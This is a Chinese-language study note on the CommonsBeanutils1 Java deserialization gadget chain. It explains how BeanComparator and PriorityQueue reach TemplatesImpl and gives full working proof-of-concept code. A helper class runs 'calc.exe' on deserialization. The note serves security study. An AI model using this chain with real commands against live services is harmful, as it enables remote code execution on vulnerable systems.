

# CommonsBeanutils1笔记

主要是有个比较好玩的地方


在TemplatesImpl的getOutputProperties方法里面也调用了newTransformer，由此衍生出了CB的利用链

这里还是会用到PriorityQueue，但是和CC2一个很大区别在于CB1用的是BeanComparator而不是TransformingComparator，我们看看，如果this.property不为null，则将会自动调用getter方法，从而通过TemplatesImpl#getOutputProperties() 方法，触发代码执行，如下图所示



因此尝试构造下paylaod，除此以外在执行到internalCompare一定会报错，因此我们在构造payload的时候也一定要小心，并且一定要保证`this.property == null`

同时发现这里que是个Object数组


因此不难构造

## payload

```Java
package ysoserial.mytest;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object
        value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
            ClassPool.getDefault().get(test.class.getName()).toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue(2, comparator);

        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new
            ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();

    }
}
```

test类

```Java
package ysoserial.mytest;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

